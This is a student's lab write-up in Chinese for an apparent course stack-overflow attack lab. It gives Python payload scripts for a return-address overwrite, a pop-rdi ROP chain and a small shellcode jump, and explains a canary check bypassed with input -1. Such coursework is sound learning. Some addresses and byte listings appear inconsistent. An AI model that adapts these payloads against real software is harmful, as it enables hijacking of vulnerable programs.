




# 栈溢出攻击实验

## 题目解决思路

### Problem 1: 
- **分析**：
程序存在栈溢出漏洞的核心函数为func（地址0x401232），其通过strcpy拷贝输入数据至栈缓冲区（-0x8(%rbp)，8 字节），无长度校验。目标是覆盖func的返回地址，跳转到输出Yes!I like ICS!的func1函数（地址0x401216）。64 位环境下，func栈帧中缓冲区至返回地址的偏移量为 16 字节（8 字节缓冲区 + 8 字节旧 rbp）
- **解决方案**：payload为：

payload1.py

padding = b'A' * 16  # 偏移填充

func1_addr = b'\x16\x12\x40\x00\x00\x00\x00\x00'  # 0x401216小端序

payload = padding + func1_addr

with open("ans1.txt", "wb") as f:

    f.write(payload)

最终 Payload：b'A'*16 + b'\x16\x12\x40\x00\x00\x00\x00\x00'，总长度 24 字节。

- **结果**：

### Problem 2:
- **分析**：问题2开启了 NX，无法直接执行栈上代码，然而，可以发现func通过memcpy拷贝输入数据，无长度限制，存在栈溢出；栈溢出16 字节，可以通过传参进行攻击，func2需传入参数 0x3f8 才会输出目标字符串，且触发条件为func2的 rdi 参数为 0x3f8，因此我们只需要修改rdi即可。

- **解决方案**：

payload2.py

padding = b"A" * 16

pop_rdi_ret = b"\xc7\x12\x40\x00\x00\x00\x00\x00"  # 0x4012c7 (little-endian)

param_3f8 = b"\xf8\x03\x00\x00\x00\x00\x00\x00"    # 0x3f8 (little-endian)

func2_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"   # 0x401216 (little-endian)

payload = padding + pop_rdi_ret + param_3f8 + func2_addr

with open("ans2.txt", "wb") as f:

    f.write(payload)

- **结果**：

### Problem 3: 
- **分析**：
func（地址0x401355）通过memcpy拷贝输入数据到栈缓冲区，无严格长度校验，存在栈溢出漏洞；栈溢出偏移量经实际验证为 27 字节（覆盖缓冲区、saved rbp 及冗余栈空间后可精准覆盖返回地址）。
直接跳转含endbr64的指令地址会触发 “非法指令” 错误，因此通过构造自定义机器码 + 精准覆盖返回地址的方式规避安全指令限制，实现参数传递和函数跳转。
- **解决方案**：

 1. 自定义机器码：完成参数传递+跳转到目标函数

 指令解析：

 0x48\xc7\xc7\x72\x00\x00\x00 → mov rdi, 0x72 （将参数0x72传入rdi寄存器）

 0x68\x16\x12\x40\x00         → push 0x401216 （将func1地址压入栈）

 0xc3                         → ret            （执行返回，跳转到func1）

code = b"\x48\xc7\xc7\x72\x00\x00\x00\x68\x16\x12\x40\x00\xc3"

 2. 填充padding：27字节，精准覆盖到返回地址位置

padding = b"\x00" * 27

 3. 跳转地址：0x401334（jmp_xs函数，规避endbr64安全指令报错），小端序

jump_address = b"\x34\x13\x40\x00\x00\x00\x00\x00"

 4. 拼接完整Payload

payload = code + padding + jump_address

- **结果**：

### Problem 4: 
- **分析**：

Canary 是栈溢出防护的核心机制，程序会在栈中 %fs:0x28 位置写入一个随机 / 固定的校验值，函数执行结束前会校验该值是否被篡改：

函数初始化时：将 %fs:0x28 处的 Canary 值写入栈中；
函数结束前：对比栈中 Canary 值与 %fs:0x28 原值；
校验失败：调用 __stack_chk_fail 终止程序，阻断栈溢出攻击；

然而，func 函数对输入值 -1（0xffffffff） 未做严格长度校验，可通过构造栈溢出 payload 绕过 Canary 校验，触发 func1 调用；
输入值需为 -1，该值经程序处理后显示为无符号整数 4294967295，满足 func 函数的核心校验逻辑。

- **解决方案**：

无payload。

- **结果**：

## 思考与总结

本次实验利用程序输入校验漏洞，构造 payload 覆盖栈中返回地址，篡改执行流程；Problem3 通过自定义机器码规避安全指令，Problem4 精准绕过 Canary 防护，利用-1的补码特性触发目标逻辑。

Canary 可阻断基础栈溢出，但程序参数校验漏洞仍可能被利用，单一防护手段不足以完全防御。小端序、特殊数值补码特性、交互流程匹配是构造有效 payload 的核心，也印证了多层防护对提升程序安全性的重要性。

## 参考资料

无